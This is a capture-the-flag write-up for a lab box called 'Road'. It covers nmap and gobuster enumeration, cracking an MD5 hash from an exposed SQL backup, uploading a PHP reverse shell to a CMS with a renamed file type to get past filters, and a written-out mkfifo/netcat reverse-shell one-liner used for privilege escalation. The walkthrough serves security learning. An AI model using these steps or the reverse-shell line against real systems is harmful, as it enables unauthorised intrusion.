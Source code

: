 # Road Write-up

## Initial Enumeration

The only initial information provided is an IP address. We begin by conducting an Nmap scan to identify open ports and services:

```bash
nmap -sC -sV -v {target_ip}
```

### Scan Results:
```
PORT   STATE SERVICE VERSION                                                                                                                         
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)                                                                    
| ssh-hostkey:                                                                                                                                       
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Scan Results:

Our scan reveals the server is running SSH and a Webpage.

## Webpage Enumeration

The webpage is a default page for Apache2 Ubuntu. Further enumeration with a gobuster scan reveals some important pages.

```bash
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.166.211 -x .txt,.php
```

http://10.10.166.211/content/

![image](https://github.com/user-attachments/assets/fcf29936-ff08-4728-ac64-6bd47ba7811e)

```bash
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.166.211/content -x .txt,.php
```

More enumeration on this page gives results but the important results are


/inc (Status: 301) [Size: 320] [--> http://10.10.166.211/content/inc/] -> A login page

/as  (Status: 301) [Size: 319] [--> http://10.10.166.211/content/as/] -> The included content which contains a sql backup!

Downloading and opening the SQL backup reveals information such as possible usernames and password hashes. Using crackstation, we find a match for an MD5 hash, possibly a password we could use.

Username: manager
Password: 42f749ade7f9e195bf475f37a44cafcb : Password123

Using these credentials on the login page found earlier, access to the cms is achieved!

### Reverse Shell

![image](https://github.com/user-attachments/assets/b006984d-8424-4dce-ba6a-00eab0d054dc)

Similiar to a technique to a technique I learned to get a WordPress reverse shell, uploading a php reverse shell file (with a renamed type to avoid filters) means a reverse shell can be made with a nc listener.

Uploading our shell and clicking on the file after starting the listener gives a shell with user 

```bash
nc -lvnp 8080
```

### First Flag
The first flag requires no further privilege escalation and can be found in the /home/itguy folder

$ cat user.txt

## Privilege Escalation

The first thing to check is any sudo priveleges the user has, in this case itguy can backup.pl which calls copy.sh.

![image](https://github.com/user-attachments/assets/31cf8c1c-a0d1-4686-8158-fe170a5fe433)

By editing copy.sh, the attacking machine can recieve the connection, gaining an elevated access shell. The only thing to change is the ip address in copy.sh.

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {local_ip} 1234 >/tmp/f

Running another nc listener

```bash
nc -lvnp 1234
```

The root flag is can be found in the root directory!

$ cat root.txt

### Notes:
Very simply box overall but lots of fundamentals, enumerate, enumerate, enumerate. The privilege escalation was easy but something I use to struggle with so I'm getting better.
I'd like to try out the exploitdb exploits next time I do something like this, I just recognized how to do this from previous boxes that had simple file upload vulnerabilities.
